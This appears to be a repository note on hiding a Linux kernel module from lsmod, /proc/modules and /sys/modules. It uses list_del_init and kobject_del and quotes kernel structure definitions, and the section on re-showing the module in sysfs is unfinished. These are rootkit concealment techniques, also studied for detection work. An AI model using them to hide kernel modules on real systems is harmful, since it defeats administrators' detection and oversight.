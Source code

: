 ## Stealth LKM
---

Loaded modules can be listed by `lsmod` and found through `/proc/modules` and `/sys/modules`.

### `linux/module.h` -> struct `module`
---

```c
struct module {
	enum module_state state;

	/* Member of list of modules */
	struct list_head list;

	/* Unique handle for this module */
	char name[MODULE_NAME_LEN];

	/* Sysfs stuff. */
	struct module_kobject mkobj;
	struct module_attribute *modinfo_attrs;
	const char *version;
	const char *srcversion;
	struct kobject *holders_dir;
	[[MORE STUFF DOWN HERE]]
```

### Hiding from `lsmod`
--- 
When module is loaded, it's associated with a struct module. All kernel modules are stored in a global liked list. Each loaded module is added to this linked list. The modules are populated in `/proc/modules` from this list, and the `lsmod` command reads `/proc/modules` to give it's output. 

To hide module from `lsmod` just need to remove module from that list:

```c
list_del_init(&__this_module.list);
```

This function is defined on `linux/list.h`:

```c
/**
 * list_del_init - deletes entry from list and reinitialize it.
 * @entry: the element to delete from the list.
 */
static inline void list_del_init (struct list_head *entry)
{
	__list_del_entry(entry);
	INIT_LIST_HEAD(entry);
}
```

### Hiding on `/sys/modules`
---
Just adding the line:
```c
kobject_del(&THIS_MODULE->mkobj.kobj);
```
The `THIS_MODULE` macro and the `struct module` are defined as:
```c
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
```
The function is defined on `linux/kobject.h`:
```c
extern void kobject_del(struct kobject *kobj);
```
A `kobject` struct represents a kernel object, and is defined on `linux/kobject.h`:

```c
struct kobject {
	const char *name;
	struct list_head entry;
	struct kobject *parent;
	struct kset *kset;
	struct kobj_type *ktype;
	struct kernfs_node *sd;                 /* sysfs directory entry */
	struct kref	kref;
#ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	struct delayed_work	release;
#endif
	unsigned int state_initialized:1;
	unsigned int state_in_sysfs:1;
	unsigned int state_add_uevent_sent:1;
	unsigned int state_remove_uevent_sent:1;
	unsigned int uevent_suppress:1;
};
```

### Show to `lsmod`
---
Just have to add back the module to the linked list. Need to define a `list_head` struct that will store the pointer to the head of the list (that's the previous element for the position of the module in the list).
```c
struct list_head  * module;
```
This struct is defined on `linux/types.h` as
```c
struct list_head {
	struct list_head *next, *prev;
};
```
Then, when going to remove the module from the list, first save that pointer that's stored in the `THIS_MODULE` object on the `list.prev` fields
```c
module = THIS_MODULE->list.prev;
```
Afterthat the module can be added to the list and become visible to `lsmod` and `/proc/modules`
```c 
list_add(&__this_module.list, module);
```
The `list_add` is defined on `linux/list.h`
```c 
/**
 * list_add - add a new entry
 * @new: new entry to be added
 * @head: list head to add it after
 *
 * Insert a new entry after the specified head.
 * This is good for implementing stacks.
 */
static inline void list_add(struct list_head *new, struct list_head *head)
{
	__list_add(new, head, head->next);
}
```
### Show to `/sysfs/modules`
---
TBD

## References
---
- [Kernel Kobject Device Model](https://medium.com/powerof2/the-kernel-kobject-device-model-explained-89d02350fa03)
- [Linux Kernel: Sysfs and Kobjects](https://www.win.tue.nl/~aeb/linux/lk/lk-13.html)
